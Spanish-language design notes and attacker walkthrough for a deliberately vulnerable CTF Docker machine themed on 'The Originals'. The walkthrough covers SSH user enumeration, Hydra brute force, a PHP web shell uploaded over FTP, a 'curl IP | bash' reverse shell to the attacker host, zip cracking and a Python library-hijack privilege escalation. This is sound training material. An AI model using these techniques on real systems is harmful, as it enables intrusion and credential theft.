# **Máquina: Diseño Inseguro**

## Objetivo
Esta máquina está específicamente diseñada para explotar la vulnerabilidad ***A04:2021 - Diseño Inseguro*** y otras vulnerabilidades.

## Planteamiento
Para cumplir con este objetivo, la máquina alojará varios servicios como **FTP**, **SSH** y **Apache**.

Estos servicios se encontrarán expuestos externamente para que cuando el atacante realice un reconocimiento pueda detectarlos.

El servicio **FTP** podrá ser accesible de forma anónima. Este servicio tendrá una configuración insegura.

El servicio de **SSH** no tendrá ninguna función más que despistar al atacante. Este servicio será vulnerable a enumeración de usuarios del sistema.

El servicio de **apache** alojará nuestra pagina web la cual esta inspirada en la serie **Los Originales**. La web será vulnerable a la vulnerabilidad **Diseño Inseguro**, la cual estará enfocada a una gestión insegura de los permisos de usuarios FTP.

****

Para comenzar el atacante realizará un reconocimiento de los servicios expuestos por la maquina, y de primeras podrá ver que el servicio **FTP** es propenso a hacer un login mediante el usuario de **anonymous** y que el **SSH** es propenso a enumeración de usuarios.

Cuando el atacante se ponga a revisar la web y realizar **FUZZING** para descubrir subdirectorios ocultos, encontrará el directorio **documents**, el cual al intentar acceder no tendra permisos de lectura.

Si el atacante sigue revisando la web, encontrará que no hay ningun vector de entrada a través de la pagina web, por lo cual se pondrá a probar que puede hacer con el usuario de **anonymous** en **FTP**, pero se dará cuenta que con este usuario tampoco puede realizar acciones importantes para vulnerar la maquina.

El atacante se pondrá a revisar mejor la web y verá que se hablan de personajes de la serie, por lo cual se creará un diccionario con nombres de usuario relacionados con los personajes de la serie **Los Originales**, de esta forma el atacante utilizará una script en **Python** para enumerar los usuarios existentes del sistema mediante **SSH**, consiguiendo encontrar al usuario **elijah** existente en la maquina.

Una vez el atacante sepa que el usuario **elijah** existe en la maquina, utilizará la herramienta **Hydra** junto con el diccionario de contraseñas **rockyou.txt** y el usuario **elijah** para realizar un ataque de fuerza bruta e intentar averiguar la contraseña del usuario atacando al servicio de **FTP**, de esta forma obtendremos la contraseña del usuario **elijah** para acceder al **FTP**.

Cuando el atacante acceda al **FTP** con el usuario de **elijah** podrá ver que puede visualizar un directorio **elijah**, en el cual despues de probar a realizar que acciones puede hacer, verá que puede subir ficheros dentro de este directorio **elijah**, de esta forma el atacante subira un fichero **cmd.php** el cual tendrá codigo en PHP para realizar una **RCE**.

Sabiendo todo esto, el atacante accederá al directorio **documents** dentro de la web y verá que dentro de **documents** existe **elijah**, de esta forma llegará a la conclusión que el fichero con el **RCE** que ha subido dentro de **elijah** por **FTP** esta sincronizado con los directorios de la web, por lo que si accede a este fichero y ejecuta **cmd=whoami** y por pantalla le muestra **www-data** verá que tiene ejecución remota de comandos.

De esta forma el atacante, se creará un **index.html** con codigo para ejecutarse una **reverse shell** en **bash**, se creará un servicio **HTTP** y se pondra en escucha por el **puerto 443**, dentro de la url hará que la maquina realice un **curl** a la IP del atacante y "pipeara" el resultado con **bash** **(http://IpMaquina/cmd.php?cmd=curl IpAtacante | bash)**, realizando esto obtendremos una **reverse shell** y obtendremos acceso a la maquina como **www-data** en donde realizaremos un tratamiento de la **TTY**.

Una vez ya tenemos acceso como **www-data** dentro de la maquina, el atacante encontrará una imagen del personaje de **caroline**, esta imagen tendra el nombre de **caroline.jpg** y estara ubicado en **/var/www/**, esta imagen tendrá un fichero **zip** oculto, que se podrá extraer mediante la herramienta de **binwalk**, una vez el atacante ha extraido este fichero **zip** vera que al intentar **"unzipearlo"** este se encuentra protegido con contraseña, por lo cual se deberá extraer un **hash** de la contraseña mediante **zip2john** y despues crackear este **hash** con la herramienta de **John**.

Cuando se tenga la contraseña del fichero **zip**, lo descomprimimos y veremos un fichero con muchas contraseñas, las cuales estas contraseñas se utilizaran junto al usuario de **caroline** y la herramienta de **Hydra** para descubrir si alguna de estas contraseñas pertenece la usuaria **caroline** y es posible acceder por **SSH**.

Con **Hydra** descubrimos la contraseña de **caroline** e iniciamos sesión por **SSH** para obtener acceso a la maquina, una vez tenemos acceso a la maquina con la usuaria **caroline**, el atacante el atacante podrá visualizar la flag **user.txt** en el directorio **/home/caroline/**.
El atacante se pondrá a buscar la forma de escalar privilegios, despues de estar buscando encontrará que puede ejecutar el binario de **python3.10** sin contraseña como **root**. Además tambien encontrará en el **home** de la usuaria **caroline**, un fichero con nombre **codificadorNombres.py**, el cual tiene la función de mostrar el nombre que reciba como parametro a **base64**.

Si el atacante visualiza como funciona este script verá que se importan las librerias de **system** y **base64**, sabiendo esto, se pondra verificará y encontrará que los permisos de la libreria **base64.py** para **python3.10** tiene permisos para que **otros** puedan modificar el contenido de la libreria y guardarlo, por lo cual el atacante editará el fichero de **base64.py** y en la función de **b64enconde** que utiliza el **script** de **codificadorNombres.py** se añadira una linea para que cuando se ejecute el **script**, el usuario que ejecute el script **"spawnee"** una **bash**.

De esta forma como el atacante puede ejecutar el binario **python3.10** como **root**, ejecutará el **script codificadorNombres.py**  utilizando **python3.10** como el usuario **root**, de esta forma se **"spawneara"** una **bash** como **root**, por lo tanto el atacante habria escalado sus privilegios al usuario con más privilegios.

Una vez tenga acceso con el usuario **root**, el atacante podrá visualizar el flag de **root.txt** dentro de **/root/**, además de obtener acceso completo a toda la maquina.

## Configuración del entorno
Para configurar el entorno utilizaremos un contenedor Docker con el sistema operativo Ubuntu Server. Los servicios que utilizaremos son:

- **FTP**: *vsftpd 3.0.5* --> Para transferencia de archivos.
- **SSH**: *OpenSSH 7.2p2* --> Para acceso remoto seguro.
- **HTTP**: *Apache 2.4.52* --> Para el servidor web.
 
## Pasos a seguir

1. **Instalación de Docker**
2. **Creación del Dockerfile**
3. **Verificación de contenedor Docker**
4. **Primeras pruebas de Docker**
5. **Configuración de la máquina y paquetes**
6. **Testeo de vulnerabilidades**
7. **Aplicar mejoras y corregir errores/problemas**
8. **Volver a testear las vulnerabilidades**
9. **Redactar el reporte y documentación final**

## WriteUp (vista atacante)

Realizamos un escaneo de los puertos de la maquina y lo exportamos a un fichero.



Con un script en python extraemos los puertos del fichero e identificamos que son los puertos **21, 22 y 80**.



Sabiendo los puertos realizamos un escaneo de los puertos para saber sus versiones y ejecutar unos scripts basicos para identificar alguna vulnerabilidad mediante **nmap**.



Accedemos a la web y mediante **Wappalyzer** visualizamos información acerca de la pagina web, por ejemplo, detectamos que la web interpreta codigo **php**.



Utilizamos **WFUZZ** para escanear la pagina web e identificar rutas escondidas, de esta forma encontramos las rutas **ftp** y **documents**.



Como a través de la web no visualizamos nada más, ni ningun vector de ataque, nos conectamos al **ftp** con el usuario **anonymous** ya que este esta habilitado.

Intentamos realizar varias acciones con **anonymous** pero verificamos que este no tiene permisos para realizar ninguna acción.



Si investigamos mejor la web, vemos que se mencionan personajes de la serie **The Originals**, por lo cual crearemos un fichero con estos nombres.



El fichero con los nombres se verá de la siguiente forma.



Al volver a revisar las versiones de los servicios, nos damos cuenta que la **versión 7.2 de SSH** es vulnerable a enumeración de usuarios del sistema.



Mediante **wget** nos descargamos el [CVE-2018-15473](https://github.com/epi052/cve-2018-15473/tree/master) y le damos permisos de ejecución.

Despues ejecutamos el script de **enumeración de usuarios** junto con el fichero de nombres de usuarios creado a través de los personajes de la web, de esta forma verificamos que el usuario **elijah** existe en el sistema.



Con la herramienta de **Hydra** hacemos fuerza bruta al servicio de **FTP** con el diccionario de contraseñas de **rockyou.txt** y el usuario **elijah**, de esta forma obtenemos la contraseña de **elijah** que nos permitirá acceder al **FTP**.




En **FTP** nos autenticamos como **elijah** y conseguimos acceso, al acceder vemos que **elijah** puede visualizar y acceder a la carpeta **documents**, además dentro de **documents** visualiza y puede acceder dentro del directorio **elijah**. Dentro del directorio **elijah** verificamos que podemos subir ficheros, por lo cual creamos un fichero en **PHP** que nos permita ejecutar comandos via web.

Este fichero lo llamamos **cmd.php** y lo subimos dentro del directorio **elijah**, además le damos permisos de ejecución.




En la web accedemos a **http://172.17.0.2/documents/elijah/cmd.php** y vemos que aqui se encuentra el fichero cmd.php que hemos subido mediante **FTP**.

Para verificar que podemos ejecutar comandos, escribimos lo siguiente en la web **http://172.17.0.2/documents/elijah/cmd.php?cmd=whoami** y nos devuelve que el usuario que ejecuta los comandos es **www-data**.



Con el siguiente comando verificamos que nos encontramos en la maquina **http://172.17.0.2/documents/elijah/cmd.php?cmd=ifconfig**.



Previamente a ejecutar una reverse shell, debemos crear un fichero **index.html** que compartiremos mediante un servidor web en python, además de ponernos en escucha por el puerto 443.



Para ejecutarnos una reverse shell escribiremos lo siguiente en la URL **http://172.17.0.2/documents/elijah/cmd.php?cmd=curl 172.17.0.1 | bash**.



Desde el terminal que estamos en escucha por el **puerto 443** obtenemos una **reverse shell** a la maquina con el usuario **www-data**.

Seguidamente empezaremos con el tratamiento de la **TTY**.





Investigando los ficheros de la maquina vemos que en **/var/www/** existe un fichero **caroline.jpg** el cual es bastante sospechoso.

Compartimos este fichero de **caroline.jpg** en un servidor web para despues descargarlo desde nuestra maquina atacante.

Tambien calcumos el hash md5 para verificar si ambos hash (original y descargado en la maquina atacante) del fichero **caroline.jpg** son iguales.

Además si miramos los usuarios del sistema, vemos que **caroline** es una usuaria del sistema la cual se puede hacer **login**.



Desde nuestra maquina atacante descargamos el fichero **caroline.jpg** y calculamos el hash md5 para verificar que coincide con la maquina atacada.



Con la herramienta **binwalk** detectamos la imagen **caroline.jpg** tiene un fichero **zip** escondido, por lo cual lo extraemos.



Intentamos descomprimir el fichero **zip** pero se encuentra protegido con contraseña.



Con la herramienta de **zip2john** extraemos el hash del fichero **zip** y guardamos el hash en un fichero **hash.txt**.

Con la herramienta de **John** crackeamos la contraseña del fichero **hash.txt** con el diccionario de contraseñas de **rockyou.txt**.

De esta forma obtenemos la contraseña del fichero **zip** que es **hellokitty**.



Extraemos el contenido del **zip** y vemos que se nos ha extraído un fichero **pwd.txt** que si mostramos su contenido vemos un listado con muchas contraseñas.





Con la herramienta de **Hydra** hacemos fuerza bruta al servicio de **SSH** con el listado de contraseñas de **pwd.txt** y el usuario **caroline**, de esta forma obtenemos la contraseña de **caroline** que nos permitirá acceder a la maquina autenticados como **caroline**.

La contraseña de la usuaria **caroline** es **_Empleado46**.



Desde el usuario de **www-data** hacemos el cambio de usuario a **caroline** y nos autenticamos con la contraseña que hemos obtenido.

Verificamos con **whoami** que ahora somos la usuaria de sistema **caroline**.



Dentro del **home** de **caroline** podemos visualizar la flag de **user.txt**, entre otros ficheros y un script en **python**.



Ejecutando **sudo -l** nos encontramos que la usuaria **caroline** tiene permisos para ejecutar como cualquier usuario (incluido **root**) sin necesidad necesidad de contraseña el binario de **python3.10**.

